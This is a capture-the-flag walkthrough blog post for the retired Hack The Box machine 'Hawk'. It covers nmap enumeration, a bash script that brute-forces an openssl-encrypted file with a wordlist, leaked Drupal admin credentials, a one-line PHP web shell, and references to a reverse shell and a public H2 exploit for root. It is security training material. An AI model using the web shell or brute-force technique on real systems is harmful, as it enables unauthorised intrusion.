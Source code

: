 ```yaml
---
layout: post
title: "Hawk: Hack The Box Walkthrough"
subtitle: "When I bestride him, I soar; I am a hawk."
date: 2018-12-02 08:34:55 +0000
last_modified_at: 2018-12-09 08:24:05 +0000
category: Walkthrough
tags: ["Hack The Box", Hawk, retired]
comments: true
image:
  feature: hawk-htb-walkthrough.jpg
  credit: Prawny / Pixabay
  creditlink: https://pixabay.com/en/vintage-japanese-watercolour-1829844/
---
```


This post documents the complete walkthrough of Hawk, a retired vulnerable [VM][1] created by [mrh4sh][2], and hosted at [Hack The Box][3]. If you are uncomfortable with spoilers, please stop reading now.
{: .notice}

<!--more-->

## On this post 
{:.no_toc} 

* TOC 
{:toc}

## Background

Hawk is a retired vulnerable VM from Hack The Box.

## Information Gathering

Let’s start with a `nmap` scan to establish the available services in the host.

```
# nmap -T5 -n -v -Pn -p- -A --reason -oN nmap.txt 10.10.10.102
...
PORT     STATE SERVICE       REASON         VERSION
21/tcp   open  ftp           syn-ack ttl 63 vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_drwxr-xr-x    2 ftp      ftp          4096 Jun 16 22:21 messages
| ftp-syst:
|   STAT:
| FTP server status:
|      Connected to ::ffff:10.10.13.108
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 3
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
22/tcp   open  ssh           syn-ack ttl 63 OpenSSH 7.6p1 Ubuntu 4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 e4:0c:cb:c5:a5:91:78:ea:54:96:af:4d:03:e4:fc:88 (RSA)
|   256 95:cb:f8:c7:35:5e:af:a9:44:8b:17:59:4d:db:5a:df (ECDSA)
|_  256 4a:0b:2e:f7:1d:99:bc:c7:d3:0b:91:53:b9:3b:e2:79 (ED25519)
80/tcp   open  http          syn-ack ttl 63 Apache httpd 2.4.29 ((Ubuntu))
| http-methods:
|_  Supported Methods: GET HEAD POST OPTIONS
| http-robots.txt: 36 disallowed entries (15 shown)
| /includes/ /misc/ /modules/ /profiles/ /scripts/
| /themes/ /CHANGELOG.txt /cron.php /INSTALL.mysql.txt
| /INSTALL.pgsql.txt /INSTALL.sqlite.txt /install.php /INSTALL.txt
|_/LICENSE.txt /MAINTAINERS.txt
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
5435/tcp open  tcpwrapped    syn-ack ttl 63
8082/tcp open  http          syn-ack ttl 63 H2 database http console
|_http-favicon: Unknown favicon MD5: 8EAA69F8468C7E0D3DFEF67D5944FF4D
| http-methods:
|_  Supported Methods: GET POST
|_http-title: H2 Console
9092/tcp open  XmlIpcRegSvc? syn-ack ttl 63
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port9092-TCP:V=7.70%I=7%D=11/28%Time=5BFF2AED%P=x86_64-pc-linux-gnu%r(N
SF:ULL,45E,"\0\0\0\0\0\0\0\x05\x009\x000\x001\x001\x007\0\0\0F\0R\0e\0m\0o
SF:\0t\0e\0\x20\0c\0o\0n\0n\0e\0c\0t\0i\0o\0n\0s\0\x20\0t\0o\0\x20\0t\0h\0
SF:i\0s\0\x20\0s\0e\0r\0v\0e\0r\0\x20\0a\0r\0e\0\x20\0n\0o\0t\0\x20\0a\0l\
SF:0l\0o\0w\0e\0d\0,\0\x20\0s\0e\0e\0\x20\0-\0t\0c\0p\0A\0l\0l\0o\0w\0O\0t
SF:\0h\0e\0r\0s\xff\xff\xff\xff\0\x01`\x05\0\0\x01\xd8\0o\0r\0g\0\.\0h\x00
SF:2\0\.\0j\0d\0b\0c\0\.\0J\0d\0b\0c\0S\0Q\0L\0E\0x\0c\0e\0p\0t\0i\0o\0n\0
SF::\0\x20\0R\0e\0m\0o\0t\0e\0\x20\0c\0o\0n\0n\0e\0c\0t\0i\0o\0n\0s\0\x20\
SF:0t\0o\0\x20\0t\0h\0i\0s\0\x20\0s\0e\0r\0v\0e\0r\0\x20\0a\0r\0e\0\x20\0n
SF:\0o\0t\0\x20\0a\0l\0l\0o\0w\0e\0d\0,\0\x20\0s\0e\0e\0\x20\0-\0t\0c\0p\0
SF:A\0l\0l\0o\0w\0O\0t\0h\0e\0r\0s\0\x20\0\[\x009\x000\x001\x001\x007\0-\x
SF:001\x009\x006\0\]\0\n\0\t\0a\0t\0\x20\0o\0r\0g\0\.\0h\x002\0\.\0m\0e\0s
SF:\0s\0a\0g\0e\0\.\0D\0b\0E\0x\0c\0e\0p\0t\0i\0o\0n\0\.\0g\0e\0t\0J\0d\0b
SF:\0c\0S\0Q\0L\0E\0x\0c\0e\0p\0t\0i\0o\0n\0\(\0D\0b\0E\0x\0c\0e\0p\0t\0i\
SF:0o\0n\0\.\0j\0a\0v\0a\0:\x003\x004\x005\0\)\0\n\0\t\0a\0t\0\x20\0o\0r\0
SF:g\0\.\0h\x002\0\.\0m\0e\0s\0s\0a\0g\0e\0\.\0D\0b\0E\0x\0c\0e\0p\0t\0i\0
SF:o\0n\0\.\0g\0e\0t\0\(\0D\0b\0E\0x\0c\0e\0p\0t\0i\0o\0n\0\.\0j\0a\0v\0a\
SF:0:\x001\x007\x009\0\)\0\n\0\t\0a\0t\0\x20\0o\0r\0g\0\.\0h\x002\0\.\0m\0
SF:e\0s\0s\0a\0g\0e\0\.\0D\0b\0E\0x\0c\0e\0p\0t\0i\0o\0n\0\.\0g\0e\0t\0\(\
SF:0D\0b\0E\0x\0c\0e\0p\0t\0i\0o\0n\0\.\0j\0a\0v\0a\0:\x001\x005\x005\0\)\
SF:0\n\0\t\0a\0t\0\x20\0o\0r\0g\0\.\0h\x002\0\.\0m\0e\0s\0s\0a\0g\0e\0\.\0
SF:D\0b\0E\0x\0c\0e\0p\0t\0i\0o\0n\0\.\0g\0e\0t\0\(\0D\0b\0E\0x\0c\0e\0p\0
SF:t\0i\0o\0n\0\.\0j\0a\0v\0a\0:\x001\x004\x004\0\)\0\n\0\t\0a\0t\0\x20\0o
SF:\0r");
```

Going the `ftp` route reveals a `messages` directory that contains a hidden file `.drupal.txt.enc`. The file is encrypted by `openssl enc` as characterized by `Salted__` header.

<a class="image-popup">
![0b315a7f.png](/assets/images/posts/hawk-htb-walkthrough/0b315a7f.png)
</a>

### Decryption of AES-256-CBC

I'm guessing the password or passphrase to decrypt the file must be simple. As such, I wrote the following script to automate the decryption of the file by going through a wordlist.

<div class="filename"><span>decrypt.sh</span></div>

```bash
#!/bin/bash

CIPHERS=$1
FILE=$2
PASS=$3

for c in $(cat $CIPHERS); do
  openssl enc $c -d -a -salt -in $FILE -pass pass:"$PASS" &>/dev/null
  if [ $? -eq 0 ]; then
    d="$(openssl enc $c -d -a -salt -in $FILE -pass pass:$PASS 2>/dev/null)"
    echo "[+] Trying $c with '$PASS'..."
    printf "%s\n\n" "$d"
  fi
done
```

Since I don't know the cipher used, the script runs through all the available ciphers in `openssl enc`. Let's run the script.

```
# parallel -j4 ./decrypt.sh ciphers.txt .drupal.txt.enc "{}" < /usr/share/seclist/Passwords/darkweb-top1000.txt | tee decrypted.txt
```

<a class="image-popup">
![083d4843.png](/assets/images/posts/hawk-htb-walkthrough/083d4843.png)
</a>

### Drupal 7.58

This version is not affected by Drupalgeddon2. The credentials to the administrative interface is (`admin:PencilKeyboardScanner123`)

In order to write PHP code as pages in Drupal 7, the PHP Filter module needs to be enabled. Once you have done that, create a PHP page containing the following code:

```php
<?php echo shell_exec($_GET['cmd']); ?>
```

Simple as it looks, the code allows us to execute remote commands as `www-data`. Well, now we can run a reverse shell back to us.

I have a preference for Perl reverse shell because Perl is, more often than not, available in Linux.

### H2 1.4.196 Remote Code Execution

During enumeration of the `www-data` account, I notice the H2 database is ran as `root`. Simply run the proof-of-concept code from EDB-ID [45506](https://www.exploit-db.com/exploits/45506) to get a `root` shell.

[1]: https://www.hackthebox.eu/home/machines/profile/146
[2]: https://www.hackthebox.eu/home/users/profile/2570
[3]: https://www.hackthebox.eu/
